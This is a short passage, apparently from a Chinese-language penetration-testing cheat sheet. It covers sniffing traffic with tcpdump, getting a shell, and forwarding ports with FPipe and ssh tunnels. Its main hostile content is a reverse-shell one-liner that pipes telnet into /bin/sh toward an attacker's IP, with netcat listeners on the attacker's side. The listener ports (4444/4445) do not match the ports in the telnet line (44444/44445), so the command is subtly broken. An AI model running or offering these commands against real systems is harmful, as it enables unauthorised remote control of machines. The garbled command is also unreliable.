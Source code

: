 **数据包嗅探是否可能？可以看到什么？**

```


```
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```




```

注意：tcpdump tcp dst [ip] [端口]和tcp dst [ip] [端口]

#### **我们有shell吗？**

```


```
`nc -lvp 4444 # Attacker. Input (Commands)``nc -lvp 4445 # Attacker. Ouput (Results) telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445`
```




```

#### **是否可以进行端口转发？重定向流量并与之交互**

注意：FPipe.exe -l [本地端口] -r [远程端口] -s [本地端口] [本地IP]

```


```
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```




```

注意：ssh-[L / R] [本地端口]：[远程IP]：[远程端口] [本地用户] @ [本地IP]

```


```
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
```




```
